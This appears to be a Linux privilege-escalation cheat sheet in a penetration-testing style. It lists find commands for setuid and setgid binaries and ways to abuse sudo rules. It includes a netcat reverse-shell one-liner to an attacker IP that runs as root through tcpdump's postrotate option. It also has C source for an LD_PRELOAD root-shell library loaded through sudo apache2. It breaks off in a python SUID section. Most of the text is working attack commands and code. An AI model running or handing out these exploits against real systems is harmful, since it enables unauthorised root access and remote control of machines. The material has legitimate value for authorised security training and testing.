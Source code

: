 # Special Permissions
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
The Set User ID upon Execution (setuid) permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The setuid bit appears as an s
```
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command:
# sudo -l
## (ALL) NOPASSWD: /usr/sbin/tcpdump

First, make a file to execute with the postrotate-command, adding a simple reverse shell one-liner.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```
```
/tmp/.test
```
Next, start a netcat listener on our attacking box 
```
nc -lvnp 443
```
run tcpdump as root with the postrotate-command
```
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
## env_keep+=LD_PRELOAD
create a file called root.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Compile root.c
```
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
(root) NOPASSWD: /usr/sbin/apache2 restart
```
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
## /usr/bin/python3
1. python script available on the machine, example called mem_status.py
```
ls -l mem_status.py
rwSrwxr-x
```
2. Having the S present means the SUID/SGID permissions are set